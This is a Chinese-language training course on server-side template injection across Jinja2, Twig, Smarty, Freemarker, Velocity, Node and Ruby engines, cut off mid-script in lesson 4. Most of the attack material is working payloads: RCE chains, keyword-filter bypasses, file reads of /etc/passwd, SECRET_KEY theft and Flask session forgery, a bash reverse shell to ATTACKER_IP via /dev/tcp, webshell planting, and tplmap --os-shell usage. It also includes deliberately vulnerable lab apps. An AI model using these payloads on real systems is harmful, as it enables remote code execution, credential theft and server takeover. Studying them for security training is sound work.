


# SSTI 模板注入详解 —— Jinja2 / Twig / Freemarker / 沙箱绕过

## 整体学习路径


---

# 第 1 课 模板引擎入门 + SSTI 原理
> 时长 60 分钟。建立模板引擎的概念，理解 SSTI 的本质。

## 1.1 为什么需要模板引擎
### 1.1.1 一个需求
假设你要写一个个人主页：
```html
<h1>张三的个人主页</h1>

<p>年龄：22</p>

<p>邮箱：zs@example.com</p>

```

但是不同用户登录看到的应该是**自己的信息**，怎么把静态 HTML 变成"动态内容"？

### 1.1.2 最原始的拼字符串（PHP）
```php
<?php
$name = $_GET['name'];
echo "<h1>" . $name . "的个人主页</h1>";
?>
```

问题：

1. 写起来啰嗦
2. **XSS 漏洞**：用户传 `<script>alert(1)</script>` 就执行了
3. 美工（写 HTML 的人）和程序员（写 PHP 的人）协作困难

### 1.1.3 模板引擎的诞生
模板引擎的思路：**把"页面结构"和"数据"分离**。

模板（程序员写）：

```html
<h1>{{ user.name }} 的个人主页</h1>

<p>年龄：{{ user.age }}</p>

```

后端（程序员写）：

```python
template.render(user=current_user())
```

模板引擎做的事：

```plain
模板 + 数据 ──► 渲染 ──► 最终 HTML
```

### 1.1.4 模板引擎的额外能力
+ 自动转义（防 XSS）
+ 条件判断 ``
+ 循环 ``
+ 继承（母版页）
+ 过滤器（pipe 风格 `{{ name | upper }}`）
+ **直接调用对象方法/函数**（这是 SSTI 的根源！）

## 1.2 主流模板引擎一览
| 语言 | 模板引擎 | 语法示例 | 默认沙箱 |
| --- | --- | --- | --- |
| Python | Jinja2 | `{{ var }}` `` | 弱（可调方法） |
| Python | Mako | `${ var }` | 几乎没有 |
| Python | Django Template | `{{ var }}` | 较强（白名单过滤） |
| PHP | Twig | `{{ var }}` | 默认 HTML 转义 |
| PHP | Smarty | `{$var }` | 有 security policy |
| PHP | Blade (Laravel) | `{{ $var }}` | 默认转义 |
| Java | Freemarker | `${var}` | 弱 |
| Java | Velocity | `$var` | 弱 |
| Java | Thymeleaf | `[[${var}]]` | 弱 |
| Node.js | Pug (Jade) | `= var` | 默认转义 |
| Node.js | EJS | `<%= var %>` | 默认转义 |
| Node.js | Nunjucks | `{{ var }}` | 弱 |
| Ruby | ERB | `<%= var %>` | 弱 |
| Ruby | Slim | `= var` | 默认转义 |
| Go | html/template | `{{ var }}` | 强（按上下文转义） |


**关键观察**：Python Jinja2 / Java Freemarker / Java Velocity / Ruby ERB 是 SSTI 高危引擎，因为它们默认允许在模板里调用对象方法。

## 1.3 SSTI 是什么
### 1.3.1 定义
**SSTI（Server-Side Template Injection，服务端模板注入）**：用户输入被直接拼接到模板字符串里参与渲染，攻击者通过模板语法注入恶意表达式，最终实现：

+ 读取服务端敏感文件（配置、源码）
+ 执行任意命令（RCE）
+ 反弹 Shell 接管服务器

### 1.3.2 漏洞代码
**安全写法（参数化）**：

```python
@app.route('/')
def hello():
    name = request.args.get('name', '')
    return render_template_string('Hello {{ name }}', name=name)
    # name 是变量，模板引擎会自动转义
```

**漏洞写法（字符串拼接）**：

```python
@app.route('/')
def hello():
    name = request.args.get('name', '')
    template = 'Hello ' + name     # ← 危险！用户输入进入模板字符串本身
    return render_template_string(template)
```

### 1.3.3 触发流程
```plain
攻击者提交 name = {{ 7*7 }}
模板字符串 = "Hello {{ 7*7 }}"
Jinja2 渲染 → "Hello 49"
返回浏览器显示 49
```

注意 `{{ 7*7 }}` 不是被当成字符串原样输出，而是被当成**模板表达式执行**。这就是 SSTI。

### 1.3.4 一张图理解
```plain
┌──────────────────────────────────────────────┐
│  浏览器请求                                   │
│  GET /?name={{7*7}}                          │
└────────────┬─────────────────────────────────┘
             │
             ▼
┌──────────────────────────────────────────────┐
│  Flask 后端                                  │
│  template = "Hello " + name                  │
│  template = "Hello {{7*7}}"                  │
│  render_template_string(template)            │
└────────────┬─────────────────────────────────┘
             │
             ▼
┌──────────────────────────────────────────────┐
│  Jinja2 解析                                 │
│  {{7*7}} 被识别为表达式                       │
│  计算 7*7 = 49                               │
│  最终输出 "Hello 49"                          │
└──────────────────────────────────────────────┘
```

## 1.4 SSTI vs XSS
很多初学者会把 SSTI 和 XSS 搞混。两者都涉及"输入被注入"，但执行位置完全不同：

| 维度 | XSS | SSTI |
| --- | --- | --- |
| 注入位置 | 输出到 HTML | 进入模板字符串 |
| 执行位置 | 浏览器（客户端） | 服务器（服务端） |
| 危害等级 | 中（窃取 Cookie） | 高（RCE） |
| 攻击者 | 诱导受害者访问 | 直接攻击服务器 |
| 检测 payload | `<script>` | `{{7*7}}` |
| WAF 难度 | 中等 | 困难（语法合法） |


**对比图**：

```plain
XSS:
用户输入 ──► 服务器存储/反射 ──► 浏览器执行 JavaScript
              (服务器不解析)

SSTI:
用户输入 ──► 服务器当成模板 ──► 模板引擎解析执行
              (服务器解析了！)
```

## 1.5 SSTI 通用检测 Payload
不同模板引擎语法不同，检测 payload 也不同。一个**通用探测表达式**：

```plain
${7*7}
{{7*7}}
<%= 7*7 %>
#{7*7}
*{7*7}
{{= 7*7}}
{{ '7'*7 }}
@(7*7)
```

### 1.5.1 经典歧义检测法
Polyglot payload（多引擎兼容）：

```plain
${{<%[%'"}%\
```

如果返回 500 错误，说明模板语法被触发了。

### 1.5.2 不同引擎指纹
| Payload | 返回 | 引擎 |
| --- | --- | --- |
| `{{7*7}}` | 49 | Jinja2 / Twig / Nunjucks |
| `${7*7}` | 49 | Freemarker / Mako |
| `<%= 7*7 %>` | 49 | ERB / EJS |
| `#{7*7}` | 49 | Ruby（部分） |
| `*{7*7}` | 49 | Thymeleaf |
| `{{= 7*7}}` | 49 | doT.js |
| `{{ '7'*7 }}` | 7777777 | Jinja2（字符串重复） |
| `{{ '7'*7 }}` | 49 | Twig（不支持字符串乘法） |
| `${"z".join("ab")}` | azb | Mako |


**Jinja2 vs Twig 区分**：

```plain
{{ 7*'7' }}    →  Jinja2 返回 7777777
                →  Twig 返回 49
```

### 1.5.3 在线 SSTI 指纹表
参考 PayloadsAllTheThings 的 SSTI 检测矩阵：

```plain
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
```

## 1.6 第一个 SSTI 漏洞复现
### 1.6.1 最小 Flask 漏洞应用
```python
# ssti_intro.py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/')
def hello():
    name = request.args.get('name', 'guest')
    # 漏洞：用户输入拼接到模板字符串
    template = f'''
    <html>
    <body>
        <h1>欢迎 {name}</h1>

        <p>请输入你的名字</p>

    </body>

    </html>

    '''
    return render_template_string(template)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

### 1.6.2 启动与测试
```bash
pip install flask
python ssti_intro.py
```

浏览器访问：

| URL | 返回 |
| --- | --- |
| `http://localhost:5000/?name=张三` | 欢迎 张三 |
| `http://localhost:5000/?name={{7*7}}` | 欢迎 49 |
| `http://localhost:5000/?name={{7*'7'}}` | 欢迎 7777777（确认 Jinja2） |


### 1.6.3 验证漏洞链
继续测试：

```plain
http://localhost:5000/?name={{config}}
```

返回一长串 Flask 配置（包括 `SECRET_KEY`）—— 这是 **SSTI 信息泄露**。

```plain
http://localhost:5000/?name={{''.__class__}}
```

返回 `<class 'str'>` —— 我们已经拿到 Python 内部类型对象，下一步就能跳到任意模块。

---

## 第 1 课小结
| 模块 | 核心要点 |
| --- | --- |
| 模板引擎 | 分离 HTML 与数据，自动转义 |
| SSTI 本质 | 用户输入进入模板字符串，被当表达式执行 |
| SSTI vs XSS | SSTI 在服务端执行，危害更大 |
| 检测 | `{{7*7}}` 看是否返回 49 |
| 指纹 | `{{7*'7'}}` Jinja2=7777777, Twig=49 |


## 课间实操 1（15 分钟）
1. 启动 1.6.1 靶场。
2. 用 `{{7*7}}`、`${7*7}`、`<%=7*7%>`、`{{7*'7'}}` 四个 payload 测试，记录返回结果。
3. 提交 `{{config}}`，截图 Flask 配置。
4. 思考：如果把 `render_template_string(template)` 改成 `render_template_string('Hello {{ name }}', name=name)`，漏洞是否还存在？为什么？

---

# 第 2 课 Jinja2 深度利用
> 时长 60 分钟。Jinja2 是 Flask 默认模板引擎，也是 CTF / SRC 中最常见的 SSTI 靶子。本课深入讲透。
>

## 2.1 Jinja2 沙箱回顾
### 2.1.1 Jinja2 的执行环境
Jinja2 默认会做一定程度的限制：

```python
# Jinja2 内置环境
from jinja2 import Environment
env = Environment()    # 默认 sandboxed=False
```

但是 Flask 的 `render_template_string` 用的是**非沙箱**环境，因此可以调用任意 Python 对象方法。

### 2.1.2 Jinja2 中的对象访问语法
| 语法 | 含义 |
| --- | --- |
| `{{ obj }}` | 输出对象 |
| `{{ obj.attr }}` | 访问属性 |
| `{{ obj['key'] }}` | 访问字典 / 下标 |
| `{{ obj.method() }}` | 调用方法 |
| `` | 循环 |
| `` | 判断 |


### 2.1.3 Jinja2 不允许的（默认）
```python
{{ import os }}            # 语法错误，import 不是表达式
{{ open('/etc/passwd') }}  # open 内置函数不在 Jinja2 环境 globals 里
```

但是！Jinja2 允许访问对象的 `__class__`、`__mro__`、`__subclasses__`、`__globals__` 等魔术属性，于是我们可以"从对象出发"找到任意模块。

## 2.2 魔术对象 config / request / g / session
Flask 在模板中注入了一些内置对象，是 SSTI 的入口：

### 2.2.1 config
```python
{{ config }}
```

包含 Flask 的所有配置，包括：

+ `SECRET_KEY`（session 签名密钥）
+ `SQLALCHEMY_DATABASE_URI`（数据库连接串）
+ `DEBUG` 模式
+ 自定义业务密钥

泄露 `SECRET_KEY` 后，攻击者可以**伪造 Flask session**，直接登入管理员账户。

### 2.2.2 request
```python
{{ request }}
{{ request.environ }}
{{ request.application.__self__._get_data_for_json }}
```

`request.environ` 包含完整环境变量，可能含 API key、数据库密码。

### 2.2.3 g
Flask 全局对象，常用于存放数据库连接、当前用户：

```python
{{ g }}
{{ g.user }}
```

### 2.2.4 session
```python
{{ session }}
{{ session.new }}
```

可直接看到当前 session 内容（虽然攻击者本身有这个 session）。

### 2.2.5 url_for / get_flashed_messages
辅助函数，能拿到全局命名空间。

## 2.3 Python MRO 与_finders
### 2.3.1 Python 对象模型
Python 中**一切皆对象**。每个对象都有：

+ `__class__`：返回类型
+ `__mro__`：方法解析顺序（继承链）
+ `__subclasses__()`：所有子类列表
+ `__init__`：初始化方法
+ `__globals__`：函数所在模块的全局命名空间
+ `__builtins__`：内置函数集合

### 2.3.2 从字符串到 os
```python
>>> ''.__class__
<class 'str'>
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
>>> ''.__class__.__mro__[1]
<class 'object'>
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'int'>, <class 'str'>, ..., <class 'subprocess.Popen'>, ...]
```

我们拿到了 `object` 的所有子类，里面包含 `subprocess.Popen`、`os._wrap_close`、`warnings.catch_warnings` 等危险类。

### 2.3.3 SSTI RCE 思路图


## 2.4 经典 RCE Payload 拆解
### 2.4.1 Payload 1：subprocess.Popen
```python
{{ ''.__class__.__mro__[1].__subclasses__()[?].__init__.__globals__['sys'].modules['os'].popen('id').read() }}
```

但 `?` 是子类索引，不同 Python 版本不同。

### 2.4.2 Payload 2：os.popen（推荐）
```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

`cycler`** 是 Jinja2 内置的全局对象**，比 `__class__` 链短得多。

### 2.4.3 Payload 3：config 拿 secret_key 后伪造 session
```python
{{ config['SECRET_KEY'] }}
```

拿到 key 后用 flask-unsign 伪造管理员 session：

```bash
pip install flask-unsign
flask-unsign --sign --cookie "{'user_id': 1, 'role': 'admin'}" --secret 'leaked-key'
```

### 2.4.4 Payload 4：lipsum / get_flashed_messages / url_for 全局
```python
{{ lipsum.__globals__.os.popen('id').read() }}
{{ get_flashed_messages.__globals__.current_app.config['SECRET_KEY'] }}
{{ url_for.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()") }}
```

**关键点**：Jinja2 内置的全局函数都是 Python 函数，函数都有 `__globals__`，可以拿到 `os`、`__builtins__` 等。

### 2.4.5 Payload 5：self / range / dict
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

### 2.4.6 Payload 6：request 对象绕过过滤
如果 `os` 被过滤：

```python
{{ request['application']['__self__']['__class__']['__mro__'][1]['__subclasses__']()[...]('id', shell=True, stdout=-1).communicate()[0] }}
```

`request` 对象支持字典访问语法，结合字符串可以绕过对关键字（`os`、`popen`）的字符串过滤。

## 2.5 关键字绕过
实际场景里往往会有黑名单（过滤 `os`、`import`、`eval`、`__`、`.` 等）。

### 2.5.1 字符串拼接
```python
{{ ().__class__.__bases__[0].__subclasses__()[?]('cat /etc/passwd', shell=True, ...) }}
```

如果 `os` 被过滤：

```python
{{ lipsum.__globals__['o'+'s'].popen('id').read() }}
```

### 2.5.2 attr 过滤器绕过点号
如果 `.` 被过滤：

```python
{{ ().__class__ }}                     # 原版
{{ ()|attr('__class__') }}             # 用 attr 过滤器
{{ ()['__class__'] }}                  # 字典语法
```

### 2.5.3 `__` 双下划线绕过
如果 `__` 被过滤：

```python
{{ ()|attr('\x5f\x5fclass\x5f\x5f') }}
{{ ()|attr(request.args.x) }}          # 通过 query 传 \x5f...
```

请求 URL：

```plain
/?x=__class__&payload={{ ()|attr(request.args.x) }}
```

### 2.5.4 关键字大小写
Python 内置函数不区分大小写，可以用字符串拼接：

```python
{{ ()|attr('\x5f\x5fCLASS\x5f\x5f'.lower()) }}
```

### 2.5.5 字符编码绕过
```python
{{ ().__class__.__bases__[0].__subclasses__()[?](
    '\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'
) }}
```

十六进制编码 `cat /etc/passwd`。

### 2.5.6 Unicode 绕过
```python
{{ ()|attr('\uff5f\uff5fclass\uff5f\uff5f') }}
```

Python 3 支持 Unicode 标识符，`\uff5f` 是全角下划线 `＿`。

### 2.5.7 format_string / join 拼接
```python
{{ '%c%c%c'|format(111, 115, 0x20) }}   # 'os '
{{ [95,95]|join }}                        # '__'
```

### 2.5.8 命令执行绕过空格 / 关键字
```bash
# 空格
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
{cat,/etc/passwd}

# 关键字（如 cat 被过滤）
/ca?/bi?/ca? /etc/passwd          # 通配符
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash   # base64
```

## 2.6 文件读取 / 命令执行 / 反弹 Shell
### 2.6.1 读取文件
```python
# 直接读
{{ open('/etc/passwd').read() }}

# 如果 open 被过滤，用 read_file 类
{{ ''.__class__.__mro__[1].__subclasses__()[?](file='/etc/passwd').read() }}
```

### 2.6.2 执行命令
```python
# 命令执行（带回显）
{{ lipsum.__globals__.os.popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

# subprocess
{{ config.__class__.__init__.__globals__['os'].system('id') }}
```

### 2.6.3 反弹 Shell
**步骤 1：攻击者监听**

```bash
nc -lvnp 4444
```

**步骤 2：服务端执行（通过 SSTI）**

```python
{{ lipsum.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"').read() }}
```

注意 URL 编码：`&` 要编码成 `%26`，`>` 要编码成 `%3E`。

### 2.6.4 完整利用链
```plain
1. 检测 SSTI                  {{7*7}}
2. 指纹引擎                   {{7*'7'}}
3. 读 config 拿 SECRET_KEY   {{config}}
4. 用内置函数读文件          {{lipsum.__globals__.os.popen('ls').read()}}
5. 反弹 Shell                通过上面的命令
6. 持久化（写 webshell）     echo "<?php @eval(...);?>" > shell.php
```

---

## 第 2 课小结
| 模块 | 核心要点 |
| --- | --- |
| 入口对象 | config / request / lipsum / cycler / url_for / self |
| MRO 链 | `''.__class__.__mro__[1].__subclasses__()` |
| 最短链 | `lipsum.__globals__.os.popen` |
| 关键字绕过 | attr / 字典语法 / 字符串拼接 / Unicode |
| 完整利用 | 读 config → 读文件 → 执行命令 → 反弹 Shell |


## 课间实操 2（20 分钟）
1. 启动第 1 课的 ssti_intro.py。
2. 按下面顺序提交 payload 并记录返回：
    - `{{config}}`
    - `{{config.SECRET_KEY}}`
    - `{{request.environ}}`
    - `{{lipsum.__globals__}}`
    - `{{lipsum.__globals__.os.popen('id').read()}}`
    - `{{''.__class__.__mro__[1].__subclasses__()}}`（注意可能很长，用 view-source 看）
3. 在本机起 `nc -lvnp 4444`，用 SSTI 反弹 Shell 验证。
4. 把代码改成下面"安全版"，再次尝试 payload，确认漏洞消失：

```python
@app.route('/')
def hello():
    name = request.args.get('name', 'guest')
    return render_template_string('Hello {{ name }}', name=name)
```

---

# 第 3 课 Twig / Smarty / Freemarker / Velocity
> 时长 60 分钟。除 Jinja2 外，主流模板引擎都有 SSTI 漏洞模式，本课一网打尽。
>

## 3.1 PHP Twig 利用
### 3.1.1 Twig 简介
Twig 是 Symfony 框架默认模板引擎，PHP 生态最流行。语法：

```plain
{{ var }}
 ... 
{{ var | upper }}
```

### 3.1.2 漏洞代码
```php
<?php
require_once 'vendor/autoload.php';

$name = $_GET['name'];
$loader = new \Twig\Loader\ArrayLoader([
    'template' => 'Hello ' . $name,   // ← 拼接用户输入
]);
$twig = new \Twig\Environment($loader);
echo $twig->render('template');
```

### 3.1.3 检测
```plain
http://target/?name={{7*7}}
返回 Hello 49
```

注意：Twig 中 `{{7*'7'}}` 返回 49（不像 Jinja2 返回 7777777）。

### 3.1.4 RCE Payload
**Twig 1.x（旧版本）**：

```plain
{{ _self.env.registerUndefinedFilterCallback("exec") }}
{{ _self.env.getFilter("id") }}
```

**Twig 2.x / 3.x**：

```plain
{{ ['id'] | filter('system') }}
{{ ['id'] | map('system') }}
{{ ['id',''] | sort('system') }}
{{ ['id'] | find('system') }}
{{ ['id'] | reduce('system') }}
```

经典 filter / map 技巧：把 `system` 当回调传进去。

### 3.1.5 信息泄露
```plain
{{ app.request.server.get('DOCUMENT_ROOT') }}
{{ app.secret }}           # Symfony 框架密钥
{{ dump(app.user) }}
```

### 3.1.6 文件读取
```plain
{{ source('/etc/passwd') }}
{{ include('/etc/passwd') }}
```

## 3.2 PHP Smarty 利用
### 3.2.1 Smarty 语法
```plain
{$var}
{if $x} ... {/if}
{$var|upper}
```

### 3.2.2 漏洞代码
```php
<?php
require 'vendor/autoload.php';
$smarty = new Smarty();
$name = $_GET['name'];
$smarty->assign('name', $name);
// 漏洞：开启了 allow_php_tag 或在 template_string 中拼接
$smarty->display('string:Hello ' . $name);
```

### 3.2.3 RCE Payload
**Smarty 3+ 内置 {system} 标签**：

```plain
{system('id')}
{exec('id')}
{passthru('id')}
```

**Smarty < 3**：

```plain
{php}system('id');{/php}
```

**绕过 security policy（如果开了）**：

```plain
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['c']); ?>",getcwd())}
```

## 3.3 Java Freemarker 利用
### 3.3.1 Freemarker 简介
Java 生态最常用的模板引擎，Struts2 / Spring 集成度高。语法：

```plain
${var}
<#if x> ... </#if>

<#list items as item> ...
```

### 3.3.2 漏洞代码
```java
@Configuration
public class TemplateConfig {
    @Bean
    public freemarker.template.Configuration configuration() {
        return new freemarker.template.Configuration(
            freemarker.template.Configuration.VERSION_2_3_30);
    }
}

@GetMapping("/")
public String hello(@RequestParam String name, Writer out) throws Exception {
    Template t = new Template("x", "Hello " + name, config);
    t.process(new HashMap<>(), out);   // ← 拼接用户输入
    return null;
}
```

### 3.3.3 检测
```plain
http://target/?name=${7*7}
返回 Hello 49
```

### 3.3.4 经典 RCE：exec / Execute
```plain
<#assign cmd="exec">
${"freemarker.template.utility.Execute"?new()("id")}
```

或者：

```plain
<#assign value="freemarker.template.utility.Execute"?new()>${value("id")}
```

### 3.3.5 ObjectConstructor
```plain
<#assign classloader=ObjectConstructor?new()>
${classloader("java.lang.ProcessBuilder",["id"]).start()}
```

### 3.3.6 静态类调用
```plain
${object?api.class.forName("java.lang.Runtime")?api.getMethod("exec",...)}
```

`?api` 是 Freemarker 2.3.22+ 引入的，允许调用任意类方法。需要在配置里关闭 `api_builtin_enabled` 才安全。

### 3.3.7 JythonRuntimeFunction
如果服务端有 Jython：

```plain
<#assign jython="freemarker.template.utility.JythonRuntime"?new()>${jython()}<#import "python">
```

### 3.3.8 经典 payload：_reading static fields
```plain
${statics["java.lang.System"].getProperty("user.dir")}
```

## 3.4 Java Velocity 利用
### 3.4.1 Velocity 语法
```velocity
$var
#if($x) ... #end
#foreach($i in $list) ...
```

### 3.4.2 漏洞代码
```java
VelocityEngine engine = new VelocityEngine();
engine.init();
StringWriter writer = new StringWriter();
engine.evaluate(new VelocityContext(), writer, "tag", "Hello " + name);
```

### 3.4.3 检测
```plain
http://target/?name=$class.inspect("java.lang.Runtime").type
```

### 3.4.4 RCE Payload
```velocity
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getMethod("getRuntime",null).invoke(null,null).exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$chr.toChars($out.read())
#end
```

### 3.4.5 简化版
```velocity
$runtime.exec("id")
$class.inspect("java.lang.Runtime").type.getRuntime().exec("id")
```

## 3.5 Node.js Pug / EJS / Nunjucks
### 3.5.1 Pug (Jade)
```plain
- var x = 7*7
= x
```

漏洞写法：

```javascript
res.render('index', { name: req.query.name });
// 模板：h1= name
```

Pug 默认转义，但如果模板用了 `!=`（不转义）：

```plain
h1!= name
```

注入：

```plain
?name=#{7*7}
```

RCE：

```plain
h1!= global.process.mainModule.require('child_process').execSync('id')
```

### 3.5.2 EJS
```plain
<%= var %>   <!-- 转义 -->
<%- var %>   <!-- 不转义 -->
```

漏洞写法：

```javascript
res.render('index', { name: req.query.name });
// 模板：<h1><%- name %></h1>

```

注入：

```plain
?name=<%= global.process.mainModule.require('child_process').execSync('id') %>
```

### 3.5.3 Nunjucks
类似 Jinja2 语法，但运行在 Node：

```plain
{{ range.constructor("return global.process.mainModule.require('child_process').execSync('id')")() }}
```

## 3.6 Ruby ERB / Slim
### 3.6.1 ERB
```plain
<%= expr %>   <!-- 输出 -->
<% code %>    <!-- 执行 -->
```

漏洞：

```ruby
require 'erb'
name = params[:name]
ERB.new("Hello " + name).result(binding)   # 拼接用户输入
```

RCE：

```plain
http://target/?name=<%= `id` %>
http://target/?name=<%= system('id') %>
http://target/?name=<%= IO.read('/etc/passwd') %>
```

### 3.6.2 Slim
```plain
= expr
```

类似 ERB 但更简洁。

## 3.7 通用沙箱逃逸思路
无论哪个引擎，沙箱逃逸的核心思路是：

```plain
┌────────────────────────────────────────────┐
│ 1. 找到能调用任意函数的入口                 │
│ 2. 用入口调用 eval / exec / Function       │
│ 3. eval 执行任意代码                       │
└────────────────────────────────────────────┘
```

### 3.7.1 PHP 通用思路
PHP 模板引擎多数最终都走 `call_user_func` / `array_map` / `usort` 等回调函数，把 `system`、`exec`、`passthru` 作为回调即可。

### 3.7.2 Java 通用思路
Java 反射：

```plain
1. ObjectConstructor / freemarker.template.utility.Execute
2. Class.forName + getMethod + invoke
3. ProcessBuilder.start
4. ScriptEngine（Nashorn / Groovy）eval JavaScript
```

### 3.7.3 Node 通用思路
```plain
1. global.process.mainModule.require('child_process')
2. Function / eval
3. require('vm').runInNewContext
```

### 3.7.4 Python 通用思路
```plain
1. __builtins__.__import__
2. __globals__.os
3. __subclasses__ 找 subprocess.Popen
4. __reduce__ （pickle 反序列化）
```

### 3.7.5 Ruby 通用思路
```plain
1. 内置 system / exec / `
2. Kernel.send(:system, 'id')
3. ObjectSpace.each_object 找类
```

---

## 第 3 课小结
| 引擎 | RCE 关键 Payload |
| --- | --- |
| Jinja2 | `lipsum.__globals__.os.popen('id').read()` |
| Twig | `['id'] | filter('system')` |
| Smarty | `{system('id')}` |
| Freemarker | `${"freemarker.template.utility.Execute"?new()("id")}` |
| Velocity | `$class.inspect("java.lang.Runtime").type.getRuntime().exec("id")` |
| Pug | `global.process.mainModule.require('child_process').execSync('id')` |
| EJS | `<%= global.process... %>` |
| ERB | `<%= \`id` %>` |


## 课间实操 3（20 分钟）
按下面顺序体验多引擎 SSTI（每个引擎搭一个最小服务）：

1. **Twig**：克隆 `https://github.com/twigphp/Twig`，按 3.1.2 跑起来，验证 `['id'] | filter('system')`。
2. **Freemarker**：用 Spring Boot，渲染 `string:Hello ${name}`，验证 `${"freemarker.template.utility.Execute"?new()("id")}`。
3. **ERB**：写一个 Sinatra 应用，验证 `<%= \`id` %>`。
4. 用**通用探测表达式** `${{<%[%'"}%\` 测试每个引擎，观察错误信息（指纹）。

如果时间不够，至少完成 Twig + Freemarker。

---

# 第 4 课 综合靶场 + 防御方案 + 真实案例
> 时长 60 分钟。综合实战，自动化工具，防御方案，真实案例。
>

## 4.1 综合靶场搭建
### 4.1.1 靶场结构
```plain
ssti_lab/
├── jinja2_app.py        # Flask 漏洞应用（5 关）
├── jinja2_safe.py       # 安全版本对照
├── filters_app.py       # 各种过滤挑战
├── templates/
│   ├── level1.html
│   ├── level2.html
│   └── ...
└── README.md
```

### 4.1.2 主应用代码（5 关）
```python
# ssti_lab.py
from flask import Flask, request, render_template_string, abort
import re

app = Flask(__name__)
app.secret_key = 'super-secret-key-do-not-leak'

LEVELS = {
    1: ('Level 1: 基础 SSTI',
        lambda name: f'Hello {name}'),

    2: ('Level 2: 拼接在标签属性里',
        lambda name: f'<div data-name="{name}">click</div>'),

    3: ('Level 3: 过滤 {{ }}',
        lambda name: re.sub(r'{{|}}', '', f'Hello {name}')),

    4: ('Level 4: 过滤 os import eval __ .',
        lambda name: re.sub(r'os|import|eval|__|\.', '', f'Hello {name}')),

    5: ('Level 5: 过滤几乎所有关键字',
        lambda name: re.sub(r'os|import|eval|__|\.|class|mro|subclasses|globals|popen|system|lipsum|cycler|self|config|request',
                            '', f'Hello {name}')),
}

@app.route('/')
def index():
    return '<br>'.join(
        f'<a href="/level/{n}">{t}</a>'
        for n, (t, _) in LEVELS.items()
    )

@app.route('/level/<int:n>')
def level(n):
    if n not in LEVELS:
        abort(404)
    title, builder = LEVELS[n]
    name = request.args.get('name', 'guest')
    template = builder(name)
    return render_template_string(f'<h1>{title}</h1><p>{template}</p>')

# 隐藏管理后台（用于验证 SECRET_KEY 泄露后的伪造 session）
@app.route('/admin')
def admin():
    from flask import session
    if session.get('role') == 'admin':
        return 'Welcome admin!'
    return 'Forbidden', 403

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

### 4.1.3 安全版本对照
```python
# ssti_safe.py
@app.route('/')
def hello():
    name = request.args.get('name', 'guest')
    # 安全：name 作为变量传入，不参与模板解析
    return render_template_string('Hello {{ name }}', name=name)
```

**对比理解**：

```plain
漏洞：template = "Hello " + name;  render_template_string(template)
安全：render_template_string("Hello {{ name }}", name=name)
```

## 4.2 自动化检测工具
### 4.2.1 tplmap（推荐）
类似 sqlmap 的 SSTI 自动化利用工具，支持多引擎：

```bash
git clone https://github.com/epinna/tplmap
cd tplmap
pip install -r requirements.txt

# 检测
python tplmap.py -u 'http://target/?name=*'

# 利用（OS Shell）
python tplmap.py -u 'http://target/?name=*' --os-shell

# 指定 POST
python tplmap.py -u 'http://target/' -d 'name=*' --os-shell
```

### 4.2.2 SSTI-detect Burp 插件
Burp BApp Store 安装 SSTI 插件，自动检测扫描。

### 4.2.3 ffuf / wfuzz + 字典
用 PayloadsAllTheThings 的 SSTI 字典跑：

```bash
ffuf -u 'http://target/?name=FUZZ' \
     -w ssti-payloads.txt \
     -mr '49|7777777|uid='
```

### 4.2.4 自己写检测脚本
```python
import requests

TARGET = 'http://target/?name={}'

PAYLOADS = {
    'Jinja2':   '{{7*7}}',
